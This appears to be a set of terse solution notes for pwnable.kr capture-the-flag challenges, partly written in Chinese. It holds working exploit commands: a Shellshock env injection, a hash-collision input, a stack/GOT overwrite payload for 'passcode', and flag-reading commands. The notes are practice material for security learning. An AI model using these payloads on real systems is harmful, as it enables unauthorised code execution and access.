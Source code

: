 # Pwnable.kr
### fd
./fd `python -c "print 0x1234+1"`
LETMEWIN
mommy! I think I know what a file descriptor is!!

### col

gdb col

col in gdb command:
disassemble check_password
b *0x080484bb
r
r AAAABBBBCCCCDDDDEEEE
info register
c
info register

python 
hex(0x21DD09EC  - (0x01010101 * 4))
0x1dd905e8

./col `python -c "print '\x01\x01\x01\x01'*4+'\xe8\x05\xd9\x1d'"`

daddy! I just managed to create a hash collision :)

### shellshock
env x='() { return;}; /bin/cat flag' ./shellshock }'' }'

### passcode
找到兩個scanf在stack的offset

"(ebp – 0x10) – (ebp – 0x70) = 0x60 = 96"

第一個scanf參數位置0xbffff3c8
第二個scanf參數位置0xbffff428

把剛剛取得的printf或fflush GOT位置寫入(%s)
再把system("/bin/cat flag")位置寫入(%d)

"0x80485E3 -> 134514147"
最後送出Payload是
"python -c "print 'A'*96+'\x00\xa0\x04\x08'+'134514147\n'" | ./passcode"

### cmd1
./cmd1 "/bin/cat f*"
